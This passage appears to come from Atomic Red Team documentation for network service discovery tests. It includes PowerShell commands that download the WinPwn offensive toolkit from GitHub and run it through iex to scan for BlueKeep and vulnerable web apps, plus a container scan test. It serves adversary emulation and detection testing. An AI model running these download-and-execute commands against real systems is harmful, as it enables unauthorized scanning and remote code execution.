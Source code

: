 **Supported Platforms:** Windows

**auto_generated_guid:** 1cca5640-32a9-46e6-b8e0-fabbe2384a73

#### Attack Commands: Run with `powershell`!

```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
bluekeep -noninteractive -consoleoutput
```

<br/>
<br/>

## Atomic Test #8 - WinPwn - fruit

Search for potentially vulnerable web apps (low hanging fruits) using fruit function of WinPwn

**Supported Platforms:** Windows

**auto_generated_guid:** bb037826-cbe8-4a41-93ea-b94059d6bb98

#### Attack Commands: Run with `powershell`!

```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
fruit -noninteractive -consoleoutput
```

<br/>
<br/>

## Atomic Test #9 - Network Service Discovery for Containers

Attackers may try to obtain a list of services that are operating on remote hosts and local network infrastructure devices, in order to identify potential vulnerabilities that can be exploited through remote software attacks. They typically use tools to conduct port and vulnerability scans in order to obtain this information.

**Supported Platforms:** Containers

**auto_generated_guid:** 06eaafdb-8982-426e-8a31-d572da633caa

#### Attack Commands: Run with `sh`!

```sh
docker build -t t1046 /root/AtomicRedTeam/atomics/T1046/src/
docker run --name t1046_container  -d -t t1046
docker exec t1046_container ./test.sh
```

#### Cleanup Commands:
